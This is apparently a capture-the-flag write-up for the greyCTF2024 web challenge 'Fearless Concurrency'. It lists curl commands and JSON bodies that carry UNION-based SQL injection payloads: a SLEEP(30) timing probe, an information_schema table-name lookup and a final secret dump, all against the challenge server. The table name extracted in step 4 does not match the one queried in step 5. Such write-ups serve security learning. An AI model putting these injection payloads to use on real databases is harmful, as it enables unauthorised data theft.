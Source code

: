 ### Manual

1. Create 2 users
	```
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Fearless Concurrency]
	└─$ curl -X POST http://challs.nusgreyhats.org:33333/register
	15428637266543480840                                                                                                                                            
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Fearless Concurrency]
	└─$ curl -X POST http://challs.nusgreyhats.org:33333/register
	14423584875232163462                          
	```

2. Generate partial table name
	```
	In [1]: import hashlib
	
	In [2]: def get_hash(user_id):
	   ...:     hasher = hashlib.sha1()
	   ...:     hasher.update(b'fearless_concurrency')
	   ...:     hasher.update(user_id.to_bytes((user_id.bit_length() + 7) // 8, byteorder='little'))
	   ...:     table_prefix = f"tbl_{hasher.hexdigest()}"
	   ...:     return table_prefix
	   ...:
	
	In [3]: get_hash(15428637266543480840)
	Out[3]: 'tbl_574d112d2ed97edd59f7bd3880291ac45ffa8c2a'
	```
3. Inject Sleep
	```
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Fearless Concurrency]
	└─$ cat json/sleep.json
	{"user_id":15428637266543480840,"query_string":"' UNION SELECT (SELECT SLEEP(30))-- -"}
	```
	```
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Fearless Concurrency]
	└─$ curl -s -H "Content-Type: application/json" http://challs.nusgreyhats.org:33333/query -d @"json/sleep.json"
	```

4. Extract full table name
	```
	{"user_id":14423584875232163462,"query_string":"' UNION SELECT (SELECT table_name FROM information_schema.tables WHERE table_name LIKE 'tbl_574d112d2ed97edd59f7bd3880291ac45ffa8c2a%')-- -"}
	```
	```
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Fearless Concurrency]
	└─$ curl -s -H "Content-Type: application/json" http://challs.nusgreyhats.org:33333/query -d @"json/get_table_name.json"
	tbl_278a4fc337ddc0a24dd40a34d5e7f0f48d2ff6e1_1913583239    
	```

5. Extract secret
	```
	{"user_id":14423584875232163462,"query_string":"' UNION SELECT (SELECT * FROM tbl_574d112d2ed97edd59f7bd3880291ac45ffa8c2a_3680590309)-- -"}
	```
	```
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Fearless Concurrency]
	└─$ curl -s -H "Content-Type: application/json" http://challs.nusgreyhats.org:33333/query -d @"json/get_secret.json"
	2026828775
	```
